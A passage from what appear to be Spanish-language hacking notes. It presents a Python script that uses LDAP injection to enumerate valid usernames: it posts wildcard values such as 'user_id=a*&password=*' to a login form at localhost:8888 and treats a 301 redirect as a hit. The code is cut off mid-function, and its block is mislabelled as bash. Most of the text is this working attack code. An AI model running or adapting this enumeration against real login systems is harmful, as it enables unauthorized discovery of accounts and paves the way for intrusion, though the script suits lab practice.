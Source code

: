 Este script sirve para descubrir usuarios válidos junto con sus descripciones

- Script
    
    ```bash
    #!/usr/bin/python3
    
    import requests
    import time
    import sys
    import signal
    import string
    
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n[!] Exiting...\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    # Variables globales
    main_url = "http://localhost:8888"
    
    # Configurar proxy [OPCIONAL]
    #burp = {'http': 'http://127.0.0.1:8080'}
    
    def getInitialUsers():
    
    	header = {'Content-Type': 'application/x-www-form-urlencoded'}
    
    	characters = string.ascii_lowercase
    
    	initial_users = []
    
    	for character in characters:
    
    		post_data = "user_id={}*&password=*&login=1&submit=Submit".format(character)
    
    		# Añadir "proxies=burp" al final si se utilizará el proxy
    		r = requests.post(main_url, data=post_data, headers=header, allow_redirects=False)
    
    		if r.status_code == 301:
    			initial_users.append(character)
    
    	return initial_users
    
    def getUsers(initial_users):
    
    	characters = string.ascii_lowercase
    	
    	header = {'Content-Type': 'application/x-www-form-urlencoded'}
    	valid_users = []
    
    	for first_character in initial_users:
    